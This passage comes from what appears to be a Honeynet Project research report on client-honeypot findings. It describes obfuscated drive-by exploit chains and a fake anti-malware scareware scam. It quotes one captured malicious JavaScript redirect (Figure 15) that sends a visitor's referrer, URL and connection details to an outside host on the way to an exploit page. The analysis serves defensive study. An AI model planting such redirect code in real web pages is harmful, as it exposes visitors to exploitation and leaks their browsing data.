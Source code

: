 Figure 14 - User supplied exploit

The exploit itself follows the same pattern as the one found on the Keith Jarrett site. JavaScript is obfuscated, causes several redirects and then actually triggers the real exploit. The import method, however, is different than the one on the Keith Jarrett site though. Instead of using an iframe that imports the exploit, JavaScript code redirects the user to the page that contains the exploit via a client-side redirect as shown in Figure 15. If this code is combined with obfuscation, as this was the case here, it is difficult to follow the code in an automated fashion. Crawlers or low-interaction client honeypots need to be JavaScript-aware to do so. This technique illustrates the attempts to avoid detection and identification of the attack.

```
<script language='javascript' STYLE="behavior:url(#default#clientCaps)" ID="oCli entCaps">
 var ref = document.referrer;
 var url = document.URL;
 if (ref.indexOf('cache:') <= 0 && url.indexOf('cache:') <= 0) {
 window.location.href='http://www.impliedscripting.com/spawn/?r=' +  escape(ref) + '&u=' + escape(url) + '&c=' + escape(oClientCaps.connectionType) + '&cl=' + escape('90716') + '&q=' + escape('interracial cuckold');
 }
 </script>
```
Figure 15 - Client-side redirect

[![figure16](images/Figure16.JPG "figure16")](https://www.honeynet.org/node/167)

Figure 16 - Malware notification

Once the exploit triggers and gains control of the client machine, we usually observed a quiet installation of malware that subsequently performs its evil deeds. The exploit encountered on anyboard.net is quite different. It applies social engineering strategy by disguising itself as anti-malware software, informing the user that malware exists on the machine, and then proceeds to entice the user to purchase a license of this “anti-malware software”. Figure 16 shows the initial notification about malware existing on the user’s machine. Note how the messaging mechanism resembles the messages of the Microsoft Security Center. Shortly after, the software proceeds to scan the machine and provide specific information about the malware that “exists” on the user’s machine as shown in Figure 17. Conveniently, a pop-up window suggests to purchase a license of this “anti-malware software” online. Major credit cards are accepted.

[![figure17](images/Figure17.JPG "figure17")](https://www.honeynet.org/node/168)

Figure 17 - PestTrap

## Summary & Recommendations

* * *

We have evaluated over 300,000 URLs with our client honeypot Capture-HPC. Several different types of input URLs were inspected by our client honeypot. All input URL categories did contain malicious URLs putting any user accessing the web is at risk. As in real life, some “neighborhoods” are more risky than others, but even users that stay clear of these areas can be victimized. We make a few recommendations to reduce the risk of successful attack by a malicious web server. We acknowledge that there is no silver bullet in this effort, but rather our recommendations are designed to reduce the risks to more acceptable levels.
